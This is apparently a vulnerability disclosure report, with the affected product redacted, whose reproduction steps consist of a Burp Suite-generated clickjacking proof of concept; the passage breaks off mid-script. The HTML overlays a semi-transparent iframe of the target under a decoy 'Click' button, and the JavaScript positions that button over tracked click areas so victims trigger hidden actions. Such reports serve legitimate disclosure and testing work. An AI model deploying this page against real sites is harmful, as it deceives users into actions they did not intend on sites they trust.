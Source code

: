 ## Affected Product(s) and Version(s)
██████████

## CVE Numbers


## Steps to Reproduce
Host the following HTML page, and make a click.

```

<div id="container" style="clip-path:none;clip:auto;overflow:visible;position:absolute;left:0;top:0;width:100%;height:100%">
<!-- Clickjacking PoC Generated by Burp Suite Professional -->
<input id="clickjack_focus" style="opacity:0;position:absolute;left:-5000px;">
<div id="clickjack_button" style="opacity: 1; transform-style: preserve-3d; text-align: center; font-family: Arial; font-size: 100%; width: 64px; height: 21px; z-index: 0; background-color: red; color: rgb(255, 255, 255); position: absolute; left: 200px; top: 200px;"><div style="position:relative;top: 50%;transform: translateY(-50%);">Click</div></div>
<!-- Show this element when clickjacking is complete -->
<div id="clickjack_complete" style="display: none; transform-style: preserve-3d; font-family: Arial; font-size: 16pt; color: red; text-align: center; width: 100%; height: 100%;"><div style="position:relative;top: 50%;transform: translateY(-50%);">You've been clickjacked!</div></div>
<iframe id="parentFrame" src="data:text/html;base64,████████" frameborder="0" scrolling="no" style="-ms-transform: scale(1.0);-ms-transform-origin: 200px 200px;transform: scale(1.0);-moz-transform: scale(1.0);-moz-transform-origin: 200px 200px;-o-transform: scale(1.0);-o-transform-origin: 200px 200px;-webkit-transform: scale(1.0);-webkit-transform-origin: 200px 200px;opacity:0.5;border:0;position:absolute;z-index:1;width:1905px;height:984px;left:0px;top:0px"></iframe>
</div>
<script>function findPos(obj) {
	    var left = 0, top = 0;
	    if(obj.offsetParent) {
	        while(1) {
	          left += obj.offsetLeft;
	          top += obj.offsetTop;
	          if(!obj.offsetParent) {
	            break;
	          }
	          obj = obj.offsetParent;
	        }
	    } else if(obj.x && obj.y) {
	        left += obj.x;
	        top += obj.y;
	    }
	    return [left,top];
  	}function generateClickArea(pos) {
			var elementWidth, elementHeight, x, y, parentFrame = document.getElementById('parentFrame'), desiredX = 200, desiredY = 200, parentOffsetWidth, parentOffsetHeight, docWidth, docHeight,
				btn = document.getElementById('clickjack_button');
			if(pos < window.clickbandit.config.clickTracking.length) {
				clickjackCompleted(false);
				elementWidth = window.clickbandit.config.clickTracking[pos].width;
				elementHeight = window.clickbandit.config.clickTracking[pos].height;
				btn.style.width = elementWidth + 'px';
				btn.style.height = elementHeight + 'px';
				window.clickbandit.elementWidth = elementWidth;
				window.clickbandit.elementHeight = elementHeight;
				x = window.clickbandit.config.clickTracking[pos].left;
				y = window.clickbandit.config.clickTracking[pos].top;
				docWidth = window.clickbandit.config.clickTracking[pos].documentWidth;
				docHeight = window.clickbandit.config.clickTracking[pos].documentHeight;
				parentOffsetWidth = desiredX - x;
```